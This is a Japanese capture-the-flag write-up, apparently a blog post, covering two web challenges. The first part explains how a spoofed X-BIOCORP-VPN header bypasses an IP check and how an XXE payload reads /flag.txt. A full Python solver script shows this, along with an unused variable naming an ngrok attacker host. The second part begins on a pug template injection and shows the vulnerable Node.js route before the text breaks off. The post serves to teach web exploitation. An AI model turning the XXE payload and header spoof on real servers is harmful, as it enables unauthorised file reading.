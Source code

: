 まず、`$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];`の値が`80.187.61.102`でなければならない。`$_SERVER['HTTP_X_BIOCORP_VPN']`は、`X-BIOCORP-VPN`というヘッダーの値となる([参考](https://www.php.net/manual/ja/reserved.variables.server.php))ので、`X-BIOCORP-VPN: 80.187.61.102`のヘッダーを付与すればチェックを突破できる。

次に、`file_get_contents('php://input')`で取得された値が`loadXML`によってパースされる。`loadXML`関数は外部エンティティを処理する設定がデフォルトで有効である。このため、XMLの中で <!ENTITY> を利用して外部ファイルを[XXE](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)が可能である。これを利用して`/flag.txt`を読み込んだ。

以下のソルバーでフラグゲット。
```python:solver.py
import requests

URL = "https://biocorp.ctf.intigriti.io/"
# URL = "http://localhost/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
r = s.post(URL + "panel.php", headers={
    "X-BIOCORP-VPN": "80.187.61.102",
    "Content-Type": "application/xml"
}, data="""
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY bar SYSTEM "/flag.txt"> ]>
<reactor>
    <status>
        <temperature>&bar;</temperature>
        <pressure>1337</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
""".strip())
print(r.text)
```

## ✅ [Web]Cat Club(100pts 130/1061 クリア率12%)

猫の写真を見ることができるサイト。ソースコードあり。`flag_<ランダムな16進数>.txt`にフラグがある。
![](/assets/blog/1337up/729ea397544b-20241117.png)

`/cats`では、ユーザー名を利用してpugのSSTIができそうである。

```javascript:router.js
router.get("/cats", getCurrentUser, (req, res) => {
    if (!req.user) {
        return res.redirect("/login?error=Please log in to view the cat gallery");
    }

    const templatePath = path.join(__dirname, "views", "cats.pug");

    fs.readFile(templatePath, "utf8", (err, template) => {
        if (err) {
            return res.render("cats");
        }

        if (typeof req.user != "undefined") {
            template = template.replace(/guest/g, req.user);
        }

        const html = pug.render(template, {
            filename: templatePath,
            user: req.user,
        });

        res.send(html);
    });
```